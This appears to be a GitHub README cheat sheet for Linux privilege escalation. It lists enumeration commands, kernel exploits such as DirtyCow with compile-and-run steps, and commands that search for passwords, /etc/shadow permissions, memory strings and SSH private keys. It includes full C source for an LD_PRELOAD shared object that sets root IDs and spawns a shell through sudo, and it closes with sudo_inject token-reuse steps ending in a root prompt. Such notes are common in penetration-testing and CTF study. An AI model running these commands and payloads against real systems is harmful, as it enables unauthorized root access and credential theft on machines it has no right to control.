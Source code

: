 # linux-priv-Esc

# GTFOBins  
https://gtfobins.github.io


# Initial Enumeration
uname -a, netstat -ano, history

# Automated tools 
1) Linux-Exploit-Suggester  https://github.com/mzet-/linux-exploit-suggester
2) Linux-Privilege-Script https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
3) Linux-Enumeration https://github.com/rebootuser/LinEnum


# Kernal-Exploit 

1) CVE-2016-5195 (DirtyCow)
Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8
Code: https://github.com/FireFart/dirtycow/blob/master/dirty.c

compile:- gcc -pthread dirty.c -o dirty -lcrypt

Then run the newly create binary by either doing:- "./dirty" or "./dirty my-new-password"

2) CVE-2010-3904 (RDS)
Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8
https://www.exploit-db.com/exploits/15285/

3) CVE-2010-4258 (Full Nelson)
Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04)
https://www.exploit-db.com/exploits/15704/

4) CVE-2012-0056 (Mempodipper)

Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)
https://www.exploit-db.com/exploits/18411


# Weak File Permission 

ls -l | grep shadow  
ls -l | grep passwd

# File Containing Password

grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null

find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;

# Old passwords in /etc/security/opasswd

/etc/security/opasswd 


# Last edited files
*Files that were edited in the last 10 minutes*

find / -mmin -10 2>/dev/null | grep -Ev "^/proc"

# In memory passwords
strings /dev/mem -n10 | grep -i PASS

# Find sensitive files
$ locate password | more    

/boot/grub/i386-pc/password.mod

/etc/pam.d/common-password

/etc/pam.d/gdm-password

/etc/pam.d/gdm-password.original

/lib/live/config/0031-root-password

# SSH Key

*Sensitive files*

find / -name authorized_keys 2> /dev/null

find / -name id_rsa 2> /dev/null


# SUDO

* NOPASSWD Sudo configuration might allow a user to execute some command with another user privileges without knowing the password.*

$ sudo -l

# LD_PRELOAD and NOPASSWD
If LD_PRELOAD is explicitly defined in the sudoers file

Defaults        env_keep += LD_PRELOAD

Compile the shared C code below on victim machine with gcc -fPIC -shared -o shell.so shell.c -nostartfiles

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
Execute any binary with the LD_PRELOAD to spawn a shell : sudo LD_PRELOAD=<full_path_to_.so_file> <program>, e.g: sudo LD_PRELOAD=/tmp/shell.so whoami


# sudo_inject
Using https://github.com/nongiach/sudo_inject

$ sudo whatever

[sudo] password for user:    

# Press <ctrl>+c since you don't have the password. 
# This creates an invalid sudo tokens.
$ sh exploit.sh
.... wait 1 seconds
$ sudo -i # no password required :)
# id
uid=0(root) gid=0(root) groups=0(root)
	
Slides of the presentation : https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf
